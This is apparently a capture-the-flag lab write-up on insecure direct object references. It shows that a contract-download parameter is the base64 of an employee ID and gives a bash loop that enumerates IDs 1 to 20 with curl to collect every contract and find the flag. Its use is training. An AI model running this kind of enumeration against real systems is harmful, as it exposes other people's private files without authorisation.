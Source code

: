 # Bypassing Encoded References

#### Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

In this exercise we must look for the flag in the Contracts page. When we download a contract we can see that we intercept a GET Request. The `contract` parameter has the value `MQ==`, which is the base64 encoded value for `1`.

Since this looks a pretty straight forward encoding method we can automatize the download process with a bash script:

{% code overflow="wrap" %}
```bash
#!/bin/bash

for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | tr -d ' -'); do
        curl -sOJ -X GET "http://SERVER_IP:SERVER_PORT/download.php?contract=$hash"
    done
done
```
{% endcode %}

After execute the script let's list all the files downloaded with `ls -l`.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

We can clearly see that one of the files stands out.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
